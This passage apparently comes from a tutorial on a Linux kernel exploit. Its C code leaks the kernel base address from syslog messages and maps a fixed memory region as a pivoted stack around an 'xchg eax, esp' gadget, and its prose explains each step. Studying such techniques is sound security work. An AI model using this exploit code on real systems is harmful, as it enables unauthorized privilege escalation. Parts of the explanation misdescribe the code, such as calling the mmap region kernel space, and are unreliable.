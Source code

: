 ```c
if (substr == NULL) {
	fprintf(stderr, "[-] Can't find Kernel base address %s\n", needle1);
	exit(EXIT_FAILURE);
}
int start = 0;
int end = 0;
for (start = 0; substr[start] != '-'; start++);
for (end = start; substr[end] != '\n'; end++);

const char* needle2 = "ffffff";
substr = (char*)memmem(&substr[start], end - start, needle2, strlen(needle2));
if (substr == NULL) {
	fprintf(stderr, "[-] Can't find Kernel base address %s\n", needle2);
	exit(EXIT_FAILURE);
}
printf("found: %s\n", substr);

char* endptr = &substr[16];
unsigned long r = strtoul(&substr[0], &endptr, 16);

r &= 0xfffffffffff00000ul;
r -= 0x1000000ul;
KERNEL_BASE = r;
```
The above code, tries to find the Kernel space address by first looking at the kernel syslog files and finding from freed space by looking the words `Freeing unused`. Since, the logs leave the address in those files also, we can get the address too, by parsing the whole string into one adress string, and then from that string we can convert it to the `unsigned long` via `strtoul` function. The last lines of the code, makes some computation stuff to get the parsed address by adding the offset.

### Getting the stack address for memory in Kernel
```c
uint64_t stack_aligned, stack_addr;
int page_size, stack_size, stack_offset;
uint64_t* stack;
page_size = getpagesize();
stack_aligned = ((KERNEL_BASE + xchg_eax_esp_ret_val) & 0x00000000fffffffful) & ~(page_size - 1);
stack_addr = stack_aligned - page_size * 4;
stack_size = page_size * 8;
stack_offset = (KERNEL_BASE + xchg_eax_esp_ret_val) % page_size;

stack = mmap((void*)stack_addr, stack_size, PROT_READ | PROT_WRITE,
			MAP_FIXED | MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);

if (stack == MAP_FAILED || stack != (void*)stack_addr) {
	perror("[-] mmap()");
	exit(EXIT_FAILURE);
}
```
Get the points and allocates the memory in kernel space address via using the function `map`. Then the stack pointer is used to embed the injection code. Note, sometimes we can overwrite some system code, so that system may disfunction in some of the tries.
		